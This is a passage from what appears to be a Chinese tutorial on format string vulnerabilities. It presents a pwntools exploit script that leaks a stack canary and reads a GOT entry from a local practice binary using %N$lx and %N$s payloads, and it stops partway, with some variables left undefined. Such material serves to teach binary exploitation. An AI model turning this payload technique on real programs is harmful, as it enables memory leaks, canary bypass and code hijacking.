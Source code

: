 ```
```  
  
  
  
从源代码中可以看到，程序具备非常明显的格式化漏洞，下方给出的exploit，针对栈上格式化字符串漏洞的读写和非栈上格式化字符串漏洞的读写进行了构造。  
  
  
其中非栈上格式化字符串漏洞的读写采用了二级踏板地址，先造地址后读取。  
  
  
```
import sys
import time
import pwn

sys.path.append('../MyTools')
import conversion

pwn.context.clear()
pwn.context.update(
    arch = 'amd64', os = 'linux',
)

target_info = {
    'exec_path': './fmtstr_example',
    'exec_info': None,
    'addr_len': 0x8,
    'got_name': 'printf',
    'caller_args_save_cnt': 0x5,
    'stack_len': 0x60,
    'heap_func_stack_len': 0x10,
    'align_fix': 0x0,
    'fixed_output_1': b'welcome, ',
    'fixed_output_2': b'format string vuln test for write\n',
}

'''| callee stack | caller rbp | caller return  | caller stack                              || ..., canary  | rbp        | return address | argc, argv, [format string][address], ... |                                                                |             ^                                                                |-------------|[format string] read / write [address]'''

def align_fix_len_get(data_str):
    target_info['align_fix'] = int(len(data_str) / target_info['addr_len']) * target_info['addr_len']
    if ((len(data_str) % target_info['addr_len']) != 0):
        target_info['align_fix'] += target_info['addr_len']
    align_fix_len = int(target_info['align_fix'] / target_info['addr_len'])
    return align_fix_len

def fmt_str_read_payload_get(got_addr_index):
    example_fmt_str_read = b'|0x%10$lx|0x%10$s'
    got_addr_index += align_fix_len_get(example_fmt_str_read)

    # leak canary
    fmt_str = b'|0x%' + str(canary_index).encode() + b'$lx'

    # read got
    fmt_str += b'|0x%' + str(got_addr_index).encode() + b'$s'

    target_info['align_fix'] = target_info['align_fix'] - len(fmt_str)
    fmt_str += b'A' * target_info['align_fix']

    # target address set
    fmt_str += pwn.p64(addr4got)
    return fmt_str

```
